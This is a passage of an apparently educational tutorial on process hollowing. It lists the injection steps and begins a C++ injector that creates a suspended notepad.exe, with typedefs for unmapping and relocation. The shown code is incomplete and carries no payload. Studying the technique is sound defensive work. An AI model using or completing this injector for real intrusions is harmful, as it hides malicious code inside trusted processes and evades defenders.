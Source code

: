 Allocates memory within the hollowed-out process using `VirtualAllocEx`.

- **Write Malicious Code to the Process**

We write the malicious code or the new executable image into the allocated memory of the suspended process using `WriteProcessMemory`.

- **Adjust Base Adresses ( The hard part )**

The purpose of this process is to ensure that all addresses within the loaded image are correctly adjusted to reflect the new base address in memory. This is necessary because the image may not always be loaded at its preferred base address, requiring relocation to function correctly.

- **Set Entry Point**
    
We modifie the entry point of the suspended process to point to the malicious code. This can be done by modifying the PEB (Process Environment Block) structure or by changing the `CONTEXT` of the process.

- **Resume the Process**
    
Finally, we need to resume the suspended process using ResumeThread. The process starts executing the malicious code instead of the original legitimate code.

## C++ Implamentation

Starting with importing the necessary libraries and Typedefs :
```cpp
#include <stdio.h>
#include <windows.h>
#include <string.h>
#include <winternl.h>

typedef NTSTATUS(WINAPI* _NtUnmapViewOfSection)(HANDLE ProcessHandle, PVOID BaseAddress);

typedef struct BASE_RELOCATION_BLOCK {
	DWORD PageAddress;
	DWORD BlockSize;
} BASE_RELOCATION_BLOCK, * PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;
```
We will see what are these Typdefs, don't worry.

### Suspended Process Creation

So as we said we should create a new instance of a legitimate process ( notepad.exe ) in a suspended state, why, because we should unmap its original code and replace it with our malicious one before the execution of its main thread.

So i'm gonna implement this inside a main function.
```cpp
int main(int argc, char *argv[]) {
    if (argc != 3) {
        printf("Usage: Process Hollowing.exe [Host.exe] [Inject]\n");
        return 0;
    }
    LPSTARTUPINFOA pStartupinfo = new STARTUPINFOA();
    PROCESS_INFORMATION proc_info;

    printf("Creating Suspended Process. [%s]\n", argv[1]);
    CreateProcessA(NULL, argv[1], NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, pStartupinfo, &proc_info);
}
```